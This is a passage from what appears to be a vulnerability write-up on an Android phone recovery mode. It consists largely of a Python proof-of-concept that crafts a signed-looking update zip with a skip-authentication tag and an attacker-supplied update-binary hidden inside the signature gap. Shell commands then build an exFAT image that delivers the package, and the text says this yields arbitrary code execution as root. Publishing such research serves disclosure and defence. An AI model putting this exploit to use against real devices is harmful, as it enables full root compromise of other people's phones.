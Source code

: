 ```

	
	z = zipfile.ZipFile(args.file, "w", compression=zipfile.ZIP_DEFLATED)
	
	z.writestr("META-INF/CERT.RSA", b"A"*1300)

	
	z.writestr("skipauth_pkg.tag", b"")
	
	
	z.writestr("META-INF/com/google/android/update-binary", args.update_binary.read())
	
	
	known_version_list = [
		b"LIO-LGRP2-OVS 102.0.0.1",
		b"LIO-LGRP2-OVS 11.0.0",
		b"NOH-LGRP2-OVS 102.0.0.1",
		b"NOH-LGRP2-OVS 11.0.0",
	]
	z.writestr("SOFTWARE_VER_LIST.mbn", b"\n".join(known_version_list)+b"\n")
	z.writestr("SD_update.tag", b"SD_PACKAGE_BASEPKG\n")
	z.close()

	
	args.file.write(b"==PAYLOAD-END==\x00")

	payload_size = args.file.tell() - (end_of_signed_data + 2) - payload_ofs

	assert payload_size + payload_ofs < gap_size, f"{payload_size} + {payload_ofs} < {gap_size}"

	
	args.file.write(b"\x00"*(gap_size - payload_ofs - payload_size))

	
	args.file.write(signature_data)

	
	args.file.write(struct.pack("<HHH", signature_size, 0xffff, gap_size + signature_size)) 
```

Regarding the actual content of the PoCs: because a mass storage device has no immediate understanding on higher levels, like file system or even files, it can only operate on raw storage level, so the output of the PoCs should be in fact a raw file system image. Here is below the file system image generation script, where the `update_sd_base.zip` archive is the `cust` part of the aformentioned LIO update and the `update-binary-poc` the ELF executable to be run. The `update-binary-poc` is the static aarch64 ELF file, which finally gets `execve` by the recovery, thus reaching arbitrary code execution as root. Also note that the output image (`file_system.img`) only contains a pure file system, and has no proper partition table.

```
python3 smuggle_zip_inplace.py update_sd_base.zip update-binary-poc
dd if=/dev/zero of=file_system.img bs=1M count=10
mkfs.exfat file_system.img
mkdir -p mnt
sudo mount -o loop,rw,nosuid,nodev,relatime,uid=1000,gid=1000,fmask=0022,dmask=0022,iocharset=utf8 -t exfat file_system.img mnt
mkdir -p mnt/dload
dd if=/dev/zero of=mnt/padding_between_exfat_headers_and_update_archive bs=1M count=1
sudo umount mnt
rmdir mnt

```